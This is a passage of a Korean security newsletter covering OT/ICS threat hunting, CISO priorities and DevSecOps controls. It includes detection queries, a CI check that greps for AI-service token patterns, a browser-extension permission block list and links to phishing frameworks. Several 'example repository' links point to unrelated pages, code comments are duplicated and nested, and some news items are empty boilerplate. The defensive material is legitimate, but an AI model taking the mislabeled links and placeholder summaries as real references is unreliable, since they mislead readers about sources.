> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.
>
> ```bash
> #!/bin/bash
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```bash
#!/bin/bash
# OT 네트워크 기본 보안 점검 스크립트
echo "=== OT Network Security Quick Check ==="
echo "Date: $(date -u +%Y-%m-%dT%H:%M:%SZ)"

# 1. 인터넷 연결 가능 여부 확인 (OT 존은 차단 필수)
echo ""
echo "[1] Internet Connectivity Check (should FAIL in OT zone)"
if curl -s --connect-timeout 5 https://www.google.com > /dev/null 2>&1; then
    echo "  CRITICAL: Internet accessible from OT network!"
else
    echo "  OK: No internet access"
fi

# 2. 알려진 OT 프로토콜 포트 리스닝 확인
echo ""
echo "[2] OT Protocol Ports Listening"
OT_PORTS=("502:Modbus" "2222:EtherNet/IP" "44818:EtherNet/IP" "20000:DNP3" "4840:OPC-UA" "102:S7comm")
for entry in "${OT_PORTS[@]}"; do
    port="${entry%%:*}"
    proto="${entry##*:}"
    if ss -tlnp 2>/dev/null | grep -q ":${port}"; then
        echo "  ACTIVE: Port ${port} (${proto})"
    fi
done

# 3. 비인가 SSH/RDP 세션 확인
echo ""
echo "[3] Remote Access Sessions"
echo "  SSH sessions: $(who | grep -c pts 2>/dev/null || echo 0)"
echo "  Active connections on port 22: $(ss -tn state established '( dport = :22 or sport = :22 )' 2>/dev/null | wc -l)"
echo "  Active connections on port 3389: $(ss -tn state established '( dport = :3389 or sport = :3389 )' 2>/dev/null | wc -l)"

# 4. 최근 24시간 로그인 실패
echo ""
echo "[4] Failed Login Attempts (last 24h)"
journalctl --since "24 hours ago" 2>/dev/null | grep -ci "failed\|failure\|invalid" || echo "  Log check unavailable"

echo ""
echo "=== Check Complete ==="

```
-->
-->

#### Threat Hunting: OT 네트워크 이상 탐지

**목표**: 에너지 시설 OT 네트워크의 비인가 접근 및 이상 프로토콜 통신 탐지

<!-- 긴 코드 블록 제거됨 (가독성 향상)
<!-- 긴 코드 블록 제거됨 (가독성 향상)
```spl
# Splunk: OT 프로토콜 비정상 통신 패턴 탐지
index=ics_network sourcetype=zeek:ics (OR sourcetype=modbus OR sourcetype=dnp3)
| eval protocol=case(
    dest_port=502, "Modbus",
    dest_port=20000, "DNP3",
    dest_port=4840, "OPC-UA",
    dest_port=44818, "EtherNet/IP",
    1=1, "Unknown"
  )
| eval is_suspicious=case(
    # External IP accessing OT protocols
    NOT (cidrmatch("10.0.0.0/8", src_ip) OR cidrmatch("192.168.0.0/16", src_ip)), 1,
    # OT protocol during off-hours (00:00-06:00 KST)
    tonumber(strftime(_time, "%H")) >= 0 AND tonumber(strftime(_time, "%H")) < 6, 1,
    # Unusual commands (Write operations)
    like(ics_command, "%write%") OR like(ics_command, "%modify%"), 1,
    1, 0
  )
| where is_suspicious=1
| stats
    count,
    values(protocol) as protocols,
    values(ics_command) as commands,
    dc(dest_ip) as unique_targets
    by src_ip, user
| where count > 5 OR unique_targets > 3
| table _time, src_ip, user, count, protocols, commands, unique_targets
| sort - count

```
-->
-->

<!--
SIEM Detection Query: Azure Sentinel KQL (ICS/OT)
목적: 폴란드 사례 유사 OT 공격 패턴 탐지
데이터 소스: Nozomi Guardian, Claroty, Palo Alto Networks ICS Security

CommonSecurityLog
| where TimeGenerated > ago(1h)
| where DeviceVendor in ("Nozomi", "Claroty", "Dragos")
| where DeviceProduct contains "ICS" or DeviceProduct contains "OT"
| where Activity in ("Modbus_Write", "DNP3_Control", "EtherNetIP_Write", "OPC_Write")
 or Activity contains "Unauthorized"
| extend
 SourceIsExternal = not(ipv4_is_in_range(SourceIP, "10.0.0.0/8")
 or ipv4_is_in_range(SourceIP, "192.168.0.0/16")
 or ipv4_is_in_range(SourceIP, "172.16.0.0/12")),
 IsWriteCommand = Activity contains "Write" or Activity contains "Control"
| where SourceIsExternal == true or IsWriteCommand == true
| summarize
 EventCount = count(),
 UniqueTargets = dcount(DestinationIP),
 Activities = make_set(Activity),
 FirstSeen = min(TimeGenerated),
 LastSeen = max(TimeGenerated)
 by SourceIP, DeviceProduct
| where EventCount > 3 or UniqueTargets > 2
| project
 FirstSeen,
 LastSeen,
 SourceIP,
 DeviceProduct,
 EventCount,
 UniqueTargets,
 Activities
| order by EventCount desc
-->

### 3.4 IEC 62443 프레임워크 적용

**에너지 시설 보안을 위한 IEC 62443 핵심 요구사항:**

| 보안 수준 | 요구사항 | 적용 |
|-----------|---------|------|
| **SL 1** | 비의도적 위반 방지 | 기본 접근 제어, 사용자 인증 |
| **SL 2** | 의도적 위반 방지 (일반) | 역할 기반 접근 제어, 암호화 통신 |
| **SL 3** | 고도화된 공격 방지 | 네트워크 세그멘테이션, IDS, 무결성 모니터링 |
| **SL 4** | 국가 수준 공격 방지 | 데이터 다이오드, 물리적 격리, 24/7 SOC |

### 3.5 MITRE ATT&CK for ICS 매핑

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.
>
> ```yaml
> mitre_attack_ics:
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.
>
> ```yaml
> mitre_attack_ics:
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```yaml
mitre_attack_ics:
  initial_access:
    - T0817      # Drive-by Compromise
    - T0886      # Remote Services
  execution:
    - T0807      # Command-Line Interface
  persistence:
    - T0889      # Modify Program
  impact:
    - T0826      # Loss of Availability
    - T0827      # Loss of Control
    - T0831      # Manipulation of Control

```
-->
-->

---

## 4. Cloud CISO Perspectives: 2026 우선순위

### 4.1 개요

이번 소식은 해당 기술 변화의 배경과 실제 적용 영향을 중심으로 정리했습니다. 실무 적용 전에 영향 범위와 운영 리스크를 평가하고 검증 기준을 확정해야 합니다.

> **출처**: [Google Cloud Blog](https://cloud.google.com/blog/products/identity-security/cloud-ciso-perspectives-5-top-ciso-priorities-in-2026/)

### 4.2 2026 CISO 5대 우선순위

| 순위 | 우선순위 | 핵심 포인트 |
|------|---------|-------------|
| 1 | **AI 보안 거버넌스** | LLM 위협 모델링, AI 공급망 보안, 프롬프트 인젝션 방어 |
| 2 | **클라우드 네이티브 보안** | 컨테이너 런타임 보호, 서비스 메시 보안, 워크로드 아이덴티티 |
| 3 | **규제 대응** | NIS2, DORA, AI Act 등 글로벌 규제 컴플라이언스 |
| 4 | **공급망 보안** | SBOM 관리, 서드파티 위험 평가, 개발자 보안 도구 통합 |
| 5 | **보안 자동화** | SOAR 고도화, AI 기반 위협 탐지, 자동 대응 파이프라인 |

---

## 5. 추가 주요 뉴스

### 5.1 HashiCorp Boundary 0.21: 원격 접근 보안 강화

이번 소식은 해당 기술 변화의 배경과 실제 적용 영향을 중심으로 정리했습니다. 실무 적용 전에 영향 범위와 운영 리스크를 평가하고 검증 기준을 확정해야 합니다.

> **출처**: [HashiCorp Blog](https://www.hashicorp.com/blog/boundary-0-21-improves-remote-access-security-and-ux-for-rdp-connections)

### 5.2 AWS Directory Service 스케일링

이번 소식은 해당 기술 변화의 배경과 실제 적용 영향을 중심으로 정리했습니다. 실무 적용 전에 영향 범위와 운영 리스크를 평가하고 검증 기준을 확정해야 합니다.

> **출처**: [AWS Security Blog](https://aws.amazon.com/blogs/security/explore-scaling-options-for-aws-directory-service-for-microsoft-active-directory/)

### 5.3 국가은행의 셀프서비스 AI 인프라 구축 교훈

이번 소식은 해당 기술 변화의 배경과 실제 적용 영향을 중심으로 정리했습니다. AI 도입 시 모델 거버넌스와 데이터 보호 기준을 함께 수립해야 합니다.

> **출처**: [HashiCorp Blog](https://www.hashicorp.com/blog/5-lessons-for-enabling-self-service-and-ai-driven-infrastructure-despite-legacy-tech-at-a-national-bank)

### 5.4 기타 주목할 뉴스

| 제목 | 출처 | 핵심 내용 |
|------|------|----------|
| [AI 지원이 코딩 기술 형성에 미치는 영향](https://news.hada.io/topic?id=26275) | GeekNews | Anthropic 연구: AI 코딩 도우미의 개발자 학습/숙련도 영향 실험적 검증 |
| [토스 프론트엔드 챕터 140명 조직 운영 경험](https://news.hada.io/topic?id=26274) | GeekNews | 대규모 프론트엔드 조직 운영 방법론과 시스템 구축 경험 |

---

## 6. DevSecOps 실무 가이드

### 6.1 비싱/피싱 방어 CI/CD 통합

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.
>
> ```yaml
> # .github/workflows/security-awareness.yml
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.
>
> ```yaml
> # .github/workflows/security-awareness.yml
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```yaml
# .github/workflows/security-awareness.yml
name: Security Awareness Check

on:
  pull_request:
    branches: [main]

jobs:
  check-secrets:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      # API 키/토큰 하드코딩 탐지
      - name: Detect Hardcoded Secrets
        uses: trufflesecurity/trufflehog@main
        with:
          path: ./
          
      # ChatGPT/OpenAI 토큰 노출 검사
      - name: Check AI Service Token Exposure
        run: |
          if grep -rn "sk-[a-zA-Z0-9]\{48\}" --include="*.{js,ts,py,json,yaml,yml,env}" .; then
            echo "::error::OpenAI API key found in source code!"
            exit 1
          fi
          if grep -rn "sess-[a-zA-Z0-9]\{40\}" --include="*.{js,ts,py,json}" .; then
            echo "::error::OpenAI session token found in source code!"
            exit 1
          fi
          echo "No AI service tokens found in code."

```
-->
-->

### 6.2 브라우저 확장 보안 정책 (MDM)

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://www.json.org/json-en.html)를 참조하세요.
>
> ```json
> {
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://www.json.org/json-en.html)를 참조하세요.
>
> ```json
> {
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```json
{
  "ExtensionInstallBlocklist": ["*"],
  "ExtensionInstallAllowlist": [
    "cjpalhdlnbpafiamejdnhcphjbkeiagm",
    "aapbdbdomjkkjkaonfhkkikfgjllcleb"
  ],
  "ExtensionSettings": {
    "*": {
      "blocked_permissions": [
        "cookies",
        "webRequest",
        "webRequestBlocking",
        "debugger",
        "nativeMessaging"
      ],
      "runtime_blocked_hosts": [
        "https://chat.openai.com/*",
        "https://platform.openai.com/*",
        "https://claude.ai/*"
      ]
    }
  }
}

```
-->
-->

---

## 7. 실무 체크리스트

### P0 - 즉시 조치 (24시간 이내)

- [ ] **비싱 경고**: 전사 피싱/비싱 경보 발령 - IT 헬프데스크 사칭 공격 주의
- [ ] **Chrome 확장 감사**: 전사 Chrome 확장 프로그램 인벤토리 수집 및 미승인 확장 제거
- [ ] **ChatGPT 세션 토큰 로테이션**: OpenAI 서비스 사용자의 세션 재인증 강제
- [ ] **OT 네트워크 점검**: 에너지/제조 환경의 IT-OT 경계 방화벽 룰 긴급 점검

### P1 - 7일 이내

- [ ] **FIDO2 MFA 전환 계획**: SMS/OTP MFA → 피싱 방지 MFA(FIDO2, WebAuthn) 전환 로드맵 수립
- [ ] **브라우저 정책 배포**: Chrome Enterprise 관리 정책으로 확장 프로그램 허용 목록 적용
- [ ] **SIEM 탐지 룰 배포**: ShinyHunters 비싱 패턴 및 비정상 MFA 인증 탐지 룰 적용
- [ ] **OT IDS 모니터링**: OT 네트워크 IDS/IPS 룰 업데이트 및 모니터링 강화

### P2 - 30일 이내

- [ ] **CISO 2026 우선순위 검토**: AI 보안 거버넌스, 공급망 보안, 규제 대응 계획 수립
- [ ] **IEC 62443 Gap 분석**: OT 환경 보안 수준 평가 및 개선 계획
- [ ] **API 토큰 관리 체계**: AI 서비스(ChatGPT, Claude, Gemini) API 키 중앙화 관리 및 로테이션 정책
- [ ] **비싱 시뮬레이션**: 보안 인식 교육에 비싱 시나리오 추가

---

## 8. 참고 자료 (References)

### 8.1 핵심 위협 보고서

| 분류 | 자료명 | 발행기관 | URL |
|------|--------|----------|-----|
| **ShinyHunters Vishing** | Mandiant Threat Intelligence Report | Google Mandiant | [https://thehackernews.com/2026/01/mandiant-finds-shinyhunters-using.html](https://thehackernews.com/2026/01/mandiant-finds-shinyhunters-using.html) |
| **UNC3944 연구** | UNC3944 Threat Group Profile | Mandiant | [https://www.mandiant.com/resources/blog/unc3944-sms-phishing-sim-swapping-ransomware](https://www.mandiant.com/resources/blog/unc3944-sms-phishing-sim-swapping-ransomware) |
| **Chrome 확장 공격** | Malicious Chrome Extensions Analysis | Security Researchers | [https://thehackernews.com/2026/01/researchers-uncover-chrome-extensions.html](https://thehackernews.com/2026/01/researchers-uncover-chrome-extensions.html) |
| **CERT Polska OT** | Coordinated Cyber Attack on Energy Infrastructure | CERT Polska | [https://thehackernews.com/2026/01/poland-attributes-december-cyber.html](https://thehackernews.com/2026/01/poland-attributes-december-cyber.html) |
| **CERT Polska 공식** | Analysis of December 29 Attack | CERT.PL | [https://cert.pl/en/posts/2025/12/energy-sector-attack/](https://cert.pl/en/posts/2025/12/energy-sector-attack/) |

### 8.2 인증 및 MFA 보안

| 자료명 | 발행기관 | URL |
|--------|----------|-----|
| **FIDO2 Specifications** | FIDO Alliance | [https://fidoalliance.org/fido2/](https://fidoalliance.org/fido2/) |
| **WebAuthn Level 2** | W3C | [https://www.w3.org/TR/webauthn-2/](https://www.w3.org/TR/webauthn-2/) |
| **Azure AD FIDO2 Deployment Guide** | Microsoft | [https://learn.microsoft.com/en-us/azure/active-directory/authentication/howto-authentication-passwordless-security-key](https://learn.microsoft.com/en-us/azure/active-directory/authentication/howto-authentication-passwordless-security-key) |
| **Okta WebAuthn Guide** | Okta | [https://developer.okta.com/docs/guides/webauthn/main/](https://developer.okta.com/docs/guides/webauthn/main/) |
| **Phishing-Resistant MFA Best Practices** | CISA | [https://www.cisa.gov/mfa](https://www.cisa.gov/mfa) |

### 8.3 브라우저 확장 보안

| 자료명 | 발행기관 | URL |
|--------|----------|-----|
| **Chrome Extension Security Best Practices** | Google Chrome | [https://developer.chrome.com/docs/extensions/develop/migrate/improve-security](https://developer.chrome.com/docs/extensions/develop/migrate/improve-security) |
| **Chrome Enterprise Policy** | Google | [https://chromeenterprise.google/policies/](https://chromeenterprise.google/policies/) |
| **Extension Manifest V3 Migration** | Chrome Developers | [https://developer.chrome.com/docs/extensions/migrating/](https://developer.chrome.com/docs/extensions/migrating/) |
| **Browser Extension Threat Model** | OWASP | [https://owasp.org/www-community/vulnerabilities/Browser_Extension_Vulnerabilities](https://owasp.org/www-community/vulnerabilities/Browser_Extension_Vulnerabilities) |

### 8.4 OT/ICS 보안

| 자료명 | 발행기관 | URL |
|--------|----------|-----|
| **IEC 62443 Standards Series** | ISA/IEC | [https://www.isa.org/standards-and-publications/isa-standards/isa-iec-62443-series-of-standards](https://www.isa.org/standards-and-publications/isa-standards/isa-iec-62443-series-of-standards) |
| **NIST SP 800-82 Rev.3** | NIST | [https://csrc.nist.gov/publications/detail/sp/800-82/rev-3/final](https://csrc.nist.gov/publications/detail/sp/800-82/rev-3/final) |
| **ICS-CERT Advisories** | CISA | [https://www.cisa.gov/uscert/ics/advisories](https://www.cisa.gov/uscert/ics/advisories) |
| **MITRE ATT&CK for ICS** | MITRE | [https://attack.mitre.org/matrices/ics/](https://attack.mitre.org/matrices/ics/) |
| **Critical Infrastructure Protection** | ENISA | [https://www.enisa.europa.eu/topics/critical-information-infrastructures-and-services](https://www.enisa.europa.eu/topics/critical-information-infrastructures-and-services) |

### 8.5 MITRE ATT&CK Framework

| 자료명 | URL |
|--------|-----|
| **T1566.004 - Phishing: Spearphishing Voice** | [https://attack.mitre.org/techniques/T1566/004/](https://attack.mitre.org/techniques/T1566/004/) |
| **T1539 - Steal Web Session Cookie** | [https://attack.mitre.org/techniques/T1539/](https://attack.mitre.org/techniques/T1539/) |
| **T1176 - Browser Extensions** | [https://attack.mitre.org/techniques/T1176/](https://attack.mitre.org/techniques/T1176/) |
| **T1528 - Steal Application Access Token** | [https://attack.mitre.org/techniques/T1528/](https://attack.mitre.org/techniques/T1528/) |
| **T1195 - Supply Chain Compromise** | [https://attack.mitre.org/techniques/T1195/](https://attack.mitre.org/techniques/T1195/) |
| **T0817 - Drive-by Compromise (ICS)** | [https://attack.mitre.org/techniques/ics/T0817/](https://attack.mitre.org/techniques/ics/T0817/) |
| **T0826 - Loss of Availability (ICS)** | [https://attack.mitre.org/techniques/ics/T0826/](https://attack.mitre.org/techniques/ics/T0826/) |

### 8.6 SIEM 및 탐지 룰

| 자료명 | 발행기관 | URL |
|--------|----------|-----|
| **Sigma Rule Repository** | SigmaHQ | [https://github.com/SigmaHQ/sigma](https://github.com/SigmaHQ/sigma) |
| **Splunk Security Content** | Splunk | [https://research.splunk.com/](https://research.splunk.com/) |
| **Azure Sentinel Detection Rules** | Microsoft | [https://github.com/Azure/Azure-Sentinel](https://github.com/Azure/Azure-Sentinel) |
| **Elastic Detection Rules** | Elastic | [https://github.com/elastic/detection-rules](https://github.com/elastic/detection-rules) |

### 8.7 클라우드 및 SaaS 보안

| 자료명 | 발행기관 | URL |
|--------|----------|-----|
| **Cloud CISO Perspectives 2026** | Google Cloud | [https://cloud.google.com/blog/products/identity-security/cloud-ciso-perspectives-5-top-ciso-priorities-in-2026/](https://cloud.google.com/blog/products/identity-security/cloud-ciso-perspectives-5-top-ciso-priorities-in-2026/) |
| **AWS Directory Service Scaling** | AWS | [https://aws.amazon.com/blogs/security/explore-scaling-options-for-aws-directory-service-for-microsoft-active-directory/](https://aws.amazon.com/blogs/security/explore-scaling-options-for-aws-directory-service-for-microsoft-active-directory/) |
| **HashiCorp Boundary 0.21** | HashiCorp | [https://www.hashicorp.com/blog/boundary-0-21-improves-remote-access-security-and-ux-for-rdp-connections](https://www.hashicorp.com/blog/boundary-0-21-improves-remote-access-security-and-ux-for-rdp-connections) |
| **SaaS Security Posture Management** | CISA | [https://www.cisa.gov/saas-security](https://www.cisa.gov/saas-security) |

### 8.8 위협 인텔리전스

| 자료명 | 발행기관 | URL |
|--------|----------|-----|
| **CISA Known Exploited Vulnerabilities** | CISA | [https://www.cisa.gov/known-exploited-vulnerabilities-catalog](https://www.cisa.gov/known-exploited-vulnerabilities-catalog) |
| **FIRST EPSS** | FIRST.org | [https://www.first.org/epss/](https://www.first.org/epss/) |
| **AlienVault OTX** | AT&T Cybersecurity | [https://otx.alienvault.com/](https://otx.alienvault.com/) |
| **VirusTotal Intelligence** | VirusTotal | [https://www.virustotal.com/gui/intelligence-overview](https://www.virustotal.com/gui/intelligence-overview) |

### 8.9 한국 관련 자료

| 자료명 | 발행기관 | URL |
|--------|----------|-----|
| **금융보안원 MFA 가이드** | 금융보안원 | [https://www.fsec.or.kr/](https://www.fsec.or.kr/) |
| **KISA 주요정보통신기반시설 보호지침** | 한국인터넷진흥원 | [https://www.kisa.or.kr/](https://www.kisa.or.kr/) |
| **산업통상자원부 스마트공장 보안 가이드** | 산업통상자원부 | [https://www.motie.go.kr/](https://www.motie.go.kr/) |
| **한국에너지공단 신재생에너지 보안** | 한국에너지공단 | [https://www.knrec.or.kr/](https://www.knrec.or.kr/) |

### 8.10 추가 학습 자료

| 자료명 | 유형 | URL |
|--------|------|-----|
| **EvilGinx2 Documentation** | Phishing Framework | [https://github.com/kgretzky/evilginx2](https://github.com/kgretzky/evilginx2) |
| **Modlishka Reverse Proxy** | Security Tool | [https://github.com/drk1wi/Modlishka](https://github.com/drk1wi/Modlishka) |
| **Chrome Extension Source Viewer** | Analysis Tool | [https://github.com/Rob--W/crxviewer](https://github.com/Rob--W/crxviewer) |
| **ICS Security Training** | SANS ICS410 | [https://www.sans.org/cyber-security-courses/ics-scada-security-essentials/](https://www.sans.org/cyber-security-courses/ics-scada-security-essentials/) |

---

## 마무리

이번 주 가장 시급한 대응은 **비싱 공격 경보 발령과 피싱 방지 MFA 전환**입니다. ShinyHunters의 비싱 기법은 기존 SMS/OTP 기반 MFA를 무력화하므로, FIDO2/WebAuthn으로의 전환이 근본적 해결책입니다.

### 핵심 요약

| 순위 | 위협 | 심각도 | 즉시 조치 |
|------|------|--------|-----------|
| 1 | **ShinyHunters Vishing** | High | 비싱 경보 + FIDO2 MFA 전환 |
| 2 | **Chrome 확장 ChatGPT 탈취** | High | 확장 감사 + AI 토큰 로테이션 |
| 3 | **폴란드 OT 공격** | Critical | IT/OT 세그멘테이션 긴급 점검 |

다음 주에도 중요한 보안 소식을 전해드리겠습니다.

---

**작성자**: Twodragon
**작성일**: 2026-01-31
